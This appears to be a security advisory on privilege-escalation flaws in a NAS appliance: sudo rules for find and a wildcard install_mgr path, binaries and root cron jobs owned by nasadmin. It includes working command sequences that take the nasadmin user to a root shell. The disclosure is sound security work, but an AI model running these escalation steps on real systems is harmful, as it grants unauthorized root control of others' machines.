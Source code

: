 ### sudo command find (REPORTED BY SOMEONE ELSE AND FIXED IN 8.1.9-236)
The sudo command find defined for users nasadmin, sysadmin and admin users let them elevate their privileges to root by executing an arbitrary command from find:
```
    (root) NOPASSWD: /usr/bin/find
```

Example privesc:
```
[nasadmin@xxx /]$ id
uid=201(nasadmin) gid=201(nasadmin) groups=201(nasadmin),504(fullnas)
[nasadmin@xxx /]$ sudo find / -maxdepth 1 -type d -name tmp -exec /bin/bash -c /bin/bash {} +
[root@xxx /]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### sudo wildcard
The sudo command ```install_mgr``` containing a path wildcard for users users nasadmin, sysadmin and admin users let them elevate their privileges by creating a directory and executing any binary:
```
    (root) NOPASSWD: /var/tmp/.CUT/CUS*-*-.dir/IMHC.dir/install_mgr, /nas/sbin/nas_connecthome
```

Example privesc:
```
[nasadmin@xxx /]$ mkdir -p /var/tmp/.CUT/CUS1-1-.dir/IMHC.dir/
[nasadmin@xxx /]$ cp /bin/bash /var/tmp/.CUT/CUS1-1-.dir/IMHC.dir/install_mgr
[nasadmin@xxx /]$ sudo /var/tmp/.CUT/CUS1-1-.dir/IMHC.dir/install_mgr
[root@xxx /]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Note that the /var/tmp/.CUT is world-writeable:
```
ls -lad /var/tmp/.CUT/
drwxrwxrwx 11 sysadmin1 nasadmin 4096 Sep 22 13:06 /var/tmp/.CUT/
```

### sudo binary rights
Some of the commands defined for user nasadmin are owned by nasadmin:
```
-rwxr-x--x 1 nasadmin nasadmin    5578 Jul 12  2018 /nas/sbin/check_workpart_and_log_slice_consistency
-rwxr-x--x 1 nasadmin nasadmin   37609 Jul 12  2018 /nas/sbin/lvm_checkup
-rwxr-xr-x 1 nasadmin nasadmin 9725020 Jul 12  2018 /nas/sbin/nas_connecthome
-rwxr-x--x 1 nasadmin nasadmin  230155 Jul 12  2018 /nas/sbin/setup_slot
-rwxr-x--x 1 nasadmin nasadmin   86981 Jul 12  2018 /nas/sbin/workpart
```

This allows the user nasadmin to become root by replacing these binaries with e.g. a shell such as /bin/bash.

### cron
Some of the cron executed by root are using binaries owned by nasadmin:
```
[root@xxx ~]# grep root /nas/site/cron.d/nas_sys | cut -d' ' -f7 | xargs ls -la | grep -v root
-rwxr-x--x 1 nasadmin nasadmin  6842 Jul 12  2018 /nas/sbin/dskMon
-rwxr-x--x 1 nasadmin nasadmin 53077 Jul 12  2018 /nas/sbin/nas_config
-rwxr-x--x 1 nasadmin nasadmin 36218 Jul 12  2018 /nas/sbin/nasdb_backup
-rwxr-x--x 1 nasadmin nasadmin  1900 Jul 12  2018 /nas/sbin/root_cron
-r-xr-xr-x 1 nasadmin nasadmin  5638 Jul 12  2018 /nas/sbin/syncrep/syncrep_update_netif
-rwxr-x--- 1 nasadmin nasadmin 12236 Jul 12  2018 /nas/sbin/.sync_up_dedup_status
-rwxr-x--x 1 nasadmin nasadmin  1381 Jul 12  2018 /nas/sbin/tomcat_log_aging
-rwxr-x--x 1 nasadmin nasadmin  4968 Jul 12  2018 /nas/sbin/update_cs_ext_ip_to_servers
-rwxr-x--- 1 nasadmin nasadmin  5898 Jul 12  2018 /nas/sbin/.update_pool
```
